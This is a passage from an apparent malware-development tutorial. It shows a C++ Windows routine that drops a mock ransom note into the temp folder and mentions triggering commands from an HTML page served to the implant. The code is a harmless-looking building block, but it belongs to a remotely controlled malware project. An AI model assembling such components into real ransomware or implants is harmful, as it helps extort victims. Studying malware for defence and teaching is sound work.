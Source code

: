 ```cpp
void FileAct() {

  char tempPath[MAX_PATH];
  DWORD result = GetTempPathA(MAX_PATH, tempPath);
  if (result == 0) {
    printf("Failed to get the temporary directory path.\n");

  }

  // Create the file path in the temporary directory
  char filePath[MAX_PATH];
  sprintf(filePath, "%sWelcomeToDarkSide.txt", tempPath);

  // Open the file for writing
  HANDLE hFile = CreateFileA(filePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("Failed to create the file. Error code: %lu\n", GetLastError());
  }

  // Write the string to the file
  const char* data = "You have been infected with a Ransomware, please call me so I can give you my bank account to pay\n Number: 911";
  DWORD bytesWritten;
  result = WriteFile(hFile, data, strlen(data), &bytesWritten, NULL);
  if (!result) {
    printf("Failed to write to the file. Error code: %lu\n", GetLastError());
    CloseHandle(hFile);

  }

  // Close the file handle
  CloseHandle(hFile);

  printf("\nFile created and data written successfully.\n");

}
```

Here **CreateFile()** and **WriteFile()** are used after each other to create the file first then do a write operation.

Now let's assemble the code and fire up the server again and try to change the commands within HTML page.

## Executing

![P3](/assets/images/malware-development/5-2.png)

